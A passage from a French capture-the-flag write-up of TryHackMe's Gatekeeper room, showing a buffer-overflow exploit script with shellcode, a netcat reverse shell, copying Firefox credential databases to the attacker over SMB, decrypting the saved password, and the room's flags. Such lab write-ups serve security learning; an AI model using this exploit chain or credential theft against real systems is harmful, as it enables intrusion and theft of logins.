"\x90\xf8\x98\xbb\xc0\x56\x73\x7c\xb0\x16\x23\x14\xda\x98\x1c"
"\x04\xe5\x72\x35\xaf\x1c\x15\x30\x39\xfa\xa7\x2c\x3b\x02\x2c"
"\x7f\xb2\xe4\x46\x6f\x93\xbf\xfe\x16\xbe\x4b\x9e\xd7\x14\x36"
"\xa0\x5c\x9b\xc7\x6f\x95\xd6\xdb\x18\x55\xad\x81\x8f\x6a\x1b"
"\xad\x4c\xf8\xc0\x2d\x1a\xe1\x5e\x7a\x4b\xd7\x96\xee\x61\x4e"
"\x01\x0c\x78\x16\x6a\x94\xa7\xeb\x75\x15\x25\x57\x52\x05\xf3"
"\x58\xde\x71\xab\x0e\x88\x2f\x0d\xf9\x7a\x99\xc7\x56\xd5\x4d"
"\x91\x94\xe6\x0b\x9e\xf0\x90\xf3\x2f\xad\xe4\x0c\x9f\x39\xe1"
"\x75\xfd\xd9\x0e\xac\x45\xf9\xec\x64\xb0\x92\xa8\xed\x79\xff"
"\x4a\xd8\xbe\x06\xc9\xe8\x3e\xfd\xd1\x99\x3b\xb9\x55\x72\x36"
"\xd2\x33\x74\xe5\xd3\x11")

filler = overflow + ret + padding + payload

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

On inclut la charge utile dans notre fichier exploit.py

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter sur le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit.py 
```

On exécute l'exploit.   

**Locate and find the User Flag.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.74.159] 49177
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,291,115,008 bytes free

C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```

On obtient un shell.   
Dans le Bureau on voit un fichier user.txt.txt.   
On le lit et on a notre shell.    

La réponse est : {H4lf_W4y_Th3r3}    

**Locate and find the Root Flag**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbserver.py kali .
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On exécute smbserver pour créer un partage de fichier.  

```bash
C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,291,344,384 bytes free
```

Sur le bureau il y un lien qui pointe sur firefox.

```bash
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>dir *.db *.sqlite
dir *.db *.sqlite
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

04/22/2020  12:47 AM           229,376 cert9.db
04/21/2020  05:02 PM           294,912 key4.db

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

04/21/2020  05:00 PM           229,376 content-prefs.sqlite
05/14/2020  10:45 PM           524,288 cookies.sqlite
05/14/2020  10:45 PM         5,242,880 favicons.sqlite
05/14/2020  10:39 PM           196,608 formhistory.sqlite
05/14/2020  10:25 PM            98,304 permissions.sqlite
05/14/2020  10:45 PM         5,242,880 places.sqlite
05/14/2020  10:45 PM            65,536 protections.sqlite
05/14/2020  10:45 PM             4,096 storage.sqlite
04/21/2020  05:02 PM            98,304 webappsstore.sqlite
              11 File(s)     12,226,560 bytes
               0 Dir(s)  16,295,383,040 bytes free

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>dir login*	
dir login*
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release

05/14/2020  10:43 PM               600 logins.json
               1 File(s)            600 bytes
               0 Dir(s)  16,211,296,256 bytes free

```

Ici on a des fichiers qui nous intéresse qui sont : key4.db, places.sqlite, logins.json. 

```bash
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy key4.db \\10.9.228.66\\kali
copy key4.db \\10.9.228.66\\kali
        1 file(s) copied.
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy places.sqlite \\10.9.228.66\\kali
copy places.sqlite \\10.9.228.66\\kali
        1 file(s) copied.
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy logins.json \\10.9.228.66\kali 
copy logins.json \\10.9.228.66\kali 
        1 file(s) copied.
```

On transfert les 3 fichiers. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/firepwd/master/firepwd.py -nv
2021-08-31 13:41:49 URL:https://raw.githubusercontent.com/timruff/firepwd/master/firepwd.py [14856/14856] -> "firepwd.py" [1]


tim@kali:~/Bureau/tryhackme/write-up$ python3 firepwd.py 
globalSalt: b'2d45b7ac4e42209a23235ecf825c018e0382291d'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'9e0554a19d22a773d0c5497efe7a80641fa25e2e73b2ddf3fbbca61d801c116d'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'b0da1db2992a21a74e7946f23021'
       }
     }
   }
   OCTETSTRING b'a713739460522b20433f7d0b49bfabdb'
 }
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'f1f75a319f519506d39986e15fe90ade00280879f00ae1e036422f001afc6267'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'dbd2424eabcf4be30180860055c8'
       }
     }
   }
   OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'
```

On télécharger firepwd.py qui nous permet d'extraire les mots de passes de la basses de donnée de firefox.    
On trouve des identifiants qui sont : 
Nom : mayor     
Mot de passe : 8CL7O1N78MdrCIsV     

On se connect en RDP avec les identifiant.   
J'utilise remina.    



Une fois connecté nous trouvons un fichier root.txt.   
On le lit et on trouve le flag.   

La réponse est : {Th3_M4y0r_C0ngr4tul4t3s_U}     

